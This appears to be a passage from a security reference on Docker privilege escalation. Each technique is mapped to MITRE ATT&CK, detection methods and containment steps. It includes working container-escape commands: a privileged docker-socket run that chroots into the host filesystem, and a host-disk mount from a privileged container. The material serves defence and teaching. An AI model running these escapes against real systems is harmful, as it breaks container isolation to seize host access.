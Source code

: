 ### Docker Privilege Escalation

1. **Docker Socket Exposure**
   - **Description**: Accessing the Docker socket to escape container boundaries
   - **Common Vectors**: Mounted Docker socket, exposed API
   - **Example Commands**:

     ```bash
     # Checking for mounted socket (reconnaissance)
     ls -la /var/run/docker.sock

     # Escaping container via socket (attack)
     docker -H unix:///var/run/docker.sock run --rm -it --privileged --net=host --pid=host --ipc=host -v /:/host alpine chroot /host
     ```

   - **MITRE ATT&CK**: T1611 (Escape to Host)
   - **Detection Method**: Docker API calls monitoring, container escape detection
   - **Containment Strategy**: Avoid mounting Docker socket, implement least privilege

2. **Privileged Container Exploitation**
   - **Description**: Using privileged containers to access host resources
   - **Common Vectors**: Containers running with --privileged flag
   - **Example Commands**:

     ```bash
     # Checking if container is privileged (reconnaissance)
     cat /proc/self/status | grep CapEff

     # Mounting host filesystem (attack if privileged)
     mkdir /tmp/hostfs
     mount /dev/sda1 /tmp/hostfs
     ```

   - **MITRE ATT&CK**: T1611 (Escape to Host)
   - **Detection Method**: Container mount operations monitoring, privileged operations
   - **Containment Strategy**: Avoid privileged containers, restrict capabilities

3. **Container Capability Abuse**
   - **Description**: Exploiting excessive Linux capabilities granted to containers
   - **Common Vectors**: Containers with CAP_SYS_ADMIN and other dangerous capabilities
   - **Example Commands**:

     ```bash
     # Checking container capabilities (reconnaissance)
     capsh --print
